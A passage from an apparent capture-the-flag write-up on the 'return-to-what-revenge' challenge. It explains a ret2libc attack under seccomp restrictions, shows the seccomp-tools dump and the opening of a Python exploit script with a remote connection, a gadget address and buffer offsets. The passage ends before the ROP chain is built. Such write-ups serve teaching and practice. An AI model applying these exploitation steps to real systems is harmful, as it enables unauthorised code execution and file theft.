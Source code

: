 ```r
$ 
[*] Interrupted
[*] Closed connection to chal.duc.tf port 30001
```

# Return-to-what revenge

This was also a ret2libc attack but the catch was the seccomp rules, the only allowed syscalls were `read`, `write`. `open` and since the location of the flag was specified, we only had one way, craft a syscall ropchain to read the flag via the allowed syscalls.

```r
d4mian@oracle:~/CTFs/DCTF$ seccomp-tools dump ./return-to-what-revenge 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x0000000a  if (A != mprotect) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x06 0x00 0x00 0x00000000  return KILL
```

Okay, so it is not something very trivial, at this point I really wanted roppy to have some ROP chain module but that is on it's way, so let's the chain ourselves:-

First, we need to leak the LIBC attack, we can do that ourselves just like we did in `return-to-what`:-

```py
from roppy import *

p = remote("chal.duc.tf", 30006)

elf = ELF("return-to-what-revenge")
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")
pop_rdi = 0x00000000004019db
flag_location = elf.section(".bss") + 0x400
flag = elf.section(".bss") + 0x200
```
